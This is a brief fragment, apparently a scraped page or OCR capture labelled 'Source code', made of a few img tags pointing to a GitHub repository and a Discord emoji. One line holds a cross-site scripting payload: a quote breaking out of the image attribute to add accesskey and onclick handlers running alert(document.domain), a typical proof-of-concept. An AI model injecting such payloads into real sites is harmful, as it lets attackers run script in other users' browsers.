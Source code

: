 <imgsrc='https://github.com/MaxPfaeffli/hi?path=epic.svg'> 
<imgsrc='https://cdn.discordapp.com/emojis/699716008532770866.gif'>"accesskey="x"onclick="alert(document.domain)"//
<imgsrc='https://github.com/MaxPfaeffli/hi/edit/main/epic.svg'>

